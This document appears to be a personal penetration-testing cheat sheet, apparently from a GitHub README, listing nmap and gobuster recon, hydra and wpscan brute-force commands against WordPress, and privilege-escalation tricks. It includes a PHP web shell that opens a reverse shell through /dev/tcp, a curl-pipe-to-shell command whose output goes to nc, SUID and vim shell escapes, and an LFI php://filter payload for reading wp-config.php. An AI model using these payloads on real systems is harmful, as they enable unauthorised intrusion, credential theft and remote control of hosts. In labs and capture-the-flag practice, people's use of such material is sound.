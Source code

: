 # Hacking Notes  

## Configuration files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Use of VPN | openvpn           |openvpn [FILE]            |
| Use of nmap | nmap           | nmap [IP]/[RANGE] [OPTIONS]            |
| UDP nmap scan | nmap           | nmap [IP]/[RANGE] -sU             |
| TCP nmap scan (no ping) | nmap           | nmap [IP]/[RANGE] -Pn             |
| Directory discovery | gobuster           | gobuster dir -u [URL] -w [WORDLIST e.g. /usr/share/wordlists/dirb/common.txt


## Web files: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Robots File | robots.txt           | [IP]/robots.txt        |

## Data format: 
|Description                | Command                         |Syntax                 |
|----------------|-------------------------------|-----------------------------|
| Get only strings | strings           | strings [FILE]        |

## Wordpress files
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| Conf backupfile | [file].swp        |

## Access
|Description                | Syntax Path|                     
|----------------|-------------------------------|
|ftp | ftp [IP]       |
|ssh | ssh [IP]       |
| smbclient | smbclient -L \\\\[IP]\\[Directory] |

## Dictionaries
|Description                | Syntax Path|                     
|----------------|-------------------------------|
| cewl (Custom Word List generator) | cewl [URL] > [PWDFILE]       |


## Bruteforce

|Description                | Syntax Path|                     
|----------------|-------------------------------|
| hydra | hydra -L [USRFILE] -P [PWDFILE] [IP] -s [PORT] http-post-form "[url]:method=wp.getUsersBlogs&user=^USER^&password=^PASS^:Invalid" -V       |
| wordpress wpscan (using xmlrpc.php) | wpscan --url [URL] -U [USER] -P [PWDFILE]       |


## Privilege Escalation
Analysis with external files: curl [IP]:8000/linpeas.sh | sh | nc [IP] [PORT]
Start HTTP Server: python3 -m http.server [PORT]
Listen: nc -lvnp [PORT]

PHP Shell (Trigger)

```
<?php

if (isset($_GET['trigger'])) {
    exec("/bin/bash -c 'bash -i >& /dev/tcp/[IP]/[PORT] 0>&1'");
}
Example: http://[IP]/wordpress/wp-content/themes/[THEME]/404.php?trigger=1)
```
Binaries
```
/usr/bin/dash -p
Path: /usr/bin/find. Exp: find . -exec /bin/sh -p \; -quit
```

LinPEAS
```
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Escape  restricted environments (vim)
```
:!/bin/sh
:set shell=/bin/sh // :set shell=/bin/bash
:shell
```

## Noop on processes without need for root permissions
```
32-bit small version: https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32s
ref: https://github.com/DominicBreuker/pspy
```
## Port Scanning

One-liner
```
python3 -c 'import socket,ipaddress;[print(f"{ip} Port {p} OPEN") for ip in list(ipaddress.IPv4Network("[RANGE]").hosts())[100:200] for p in range(1,65535) if not socket.socket().connect_ex((str(ip),p))]' 
```

## Dynamic tunnel
Over Socks 5: ssh -D PORT [USER]@[IP]
![image](https://github.com/user-attachments/assets/bb6c4651-ac44-4144-9765-845565b9a826)

## Force the server to read and encode the file before processed
Example (with LFI, wp file) 
http://[IP]/lx.php?page=php://filter/convert.base64-encode/resource=/var/www/html/wordpress/wp-config.php

## Check commands in a restricted shell
"TAB TAB"

# FIles
vim ~/.bash_logout
vim ~/.config/


